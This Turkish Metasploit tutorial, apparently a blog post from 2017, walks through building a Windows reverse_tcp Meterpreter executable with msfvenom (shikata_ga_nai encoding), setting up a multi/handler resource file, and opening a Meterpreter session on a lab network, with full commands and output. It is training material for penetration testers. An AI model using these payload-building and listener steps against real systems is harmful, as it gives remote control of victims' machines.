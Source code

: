 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Yazma'
date: '2017-06-14T13:47:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim. 
Tüm Windows sürümleri aynı değildir. 
Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar. 
Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler. 
Script yazarken Windows sürümüne özel davranmanız gerekebilir." 
 
url:  /tr/msf-meterpreter-script-yazma/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim.


* 
* Tüm Windows sürümleri aynı değildir.

* Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar.

* Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler.

* Script yazarken Windows sürümüne özel davranmanız gerekebilir.




Yukarıda belirtilen kuralları göz önünde bulundurarak, hedefe özel script yazmak gerekmektedir. Bu durumda yazacağımız script doğru çalışabilir.



Şimdi, aşağıdaki komut ile çalıştırılabilir bir .exe dosyası oluşturalım. Bu program, hedef sistemde çalışacak ve yerel bilgisayarımıza reverse bağlantı açacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST**=**192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration**=**0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```



Gerekli .exe dosyamız oluşturuldu. Bu dosya hedef windows işletim sistemi içinde çalışacak ve yerel bilgisayara iletişim sağlayacaktır. O zaman bizim yerel bilgisayarda dinleyici oluşturmamız gerekmektedir. Dinleyicimizi oluşturalım.


```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler **>>** meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp **>>** meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 **>>** meterpreter.rc
root@kali:~# echo set ExitOnSession false **>>** meterpreter.rc
root@kali:~# echo exploit -j -z **>>** meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```



Dikkat ederseniz komutlarla, multi handler modülünü dinleyici olarak ayarladık. Payload modülü olarak reverse_tcp modülü kulandık. Yerel IP adresi olarak 192.168.1.184 ayarladık.



Yeni yazdığımız scriptleri `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edersek, kolayca kullanabiliriz.



Şimdi yapmamız gereken, `msfconsole` programını yeni oluşturduğumuz `meterpreter.rc` dosyasını kaynak göstererek başlatmak.


```bash
root@kali:~# msfconsole -r meterpreter.rc

       **=[** metasploit v4.8.2-2014021901 **[**core:4.8 api:1.0] **]**
+ -- --**=[** 1265 exploits - 695 auxiliary - 202 post **]**
+ -- --**=[** 330 payloads - 32 encoders - 8 nops      **]**

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```



Yukarıda gördüğünüz gibi Metasploit Framework dinleme yaparak başlamıştır. Artık, oluşturduğumuz .exe dosyasını Windows içerisinde çalıştırdığımızda, oturum aktif hale gelecektir.


```bash
> Sending stage (718336 bytes)
> Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
> Starting interaction with 1...

meterpreter >```
